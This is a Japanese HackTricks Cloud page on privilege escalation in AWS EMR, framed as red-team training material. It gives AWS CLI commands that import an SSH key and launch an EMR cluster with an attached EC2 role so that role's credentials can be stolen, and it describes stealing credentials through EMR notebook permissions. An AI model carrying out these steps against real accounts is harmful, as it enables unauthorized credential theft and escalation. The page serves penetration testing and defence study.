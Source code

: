 # AWS - EMR 特権昇格

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または [**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* ハッキングトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
{% endhint %}

## EMR

**EMRに関する詳細情報**は以下を参照してください:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

これらの権限を持つ攻撃者は、**新しいEMRクラスターを実行し、EC2ロールをアタッチ**してその資格情報を盗もうとすることができます。\
これを行うには、アカウントにインポートされた**いくつかのsshプライベートキーを知っている必要があります**、または1つをインポートし、**マスターノードでポート22を開くことができる必要があります**（これは`--ec2-attributes`内の`EmrManagedMasterSecurityGroup`および/または`ServiceAccessSecurityGroup`属性で行うことができるかもしれませません）。
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
注意してください。`--service-role`で**EMRロール**が指定され、`InstanceProfile`内で`--ec2-attributes`で**ec2ロール**が指定されています。ただし、このテクニックはEC2ロールの資格情報を盗むことしかできません（ssh経由で接続するため）、EMR IAMロールは盗むことができません。

**潜在的な影響:** 指定されたEC2サービスロールへの権限昇格。

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

これらの権限を持つ攻撃者は**AWSコンソール**にアクセスし、ノートブックを作成してIAMロールを盗むことができます。

{% hint style="danger" %}
私のテストでは、ノートブックインスタンスにIAMロールをアタッチしても、IAMロールに関連する資格情報ではなく、AWSが管理する資格情報を盗むことができました。
{% endhint %}

**潜在的な影響:** arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfileへのAWS管理ロールへの権限昇格

### `elasticmapreduce:OpenEditorInConsole`

この権限だけで、攻撃者は**Jupyter NotebookにアクセスしてIAMロールを盗む**ことができます。\
ノートブックのURLは`https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`です。

{% hint style="danger" %}
私のテストでは、ノートブックインスタンスにIAMロールをアタッチしても、IAMロールに関連する資格情報ではなく、AWSが管理する資格情報を盗むことができました。
{% endhint %}

**潜在的な影響:** arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfileへのAWS管理ロールへの権限昇格

{% hint style="success" %}
AWSハッキングの学習と実践:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と実践: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に**参加**または**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* ハッキングトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
{% endhint %}
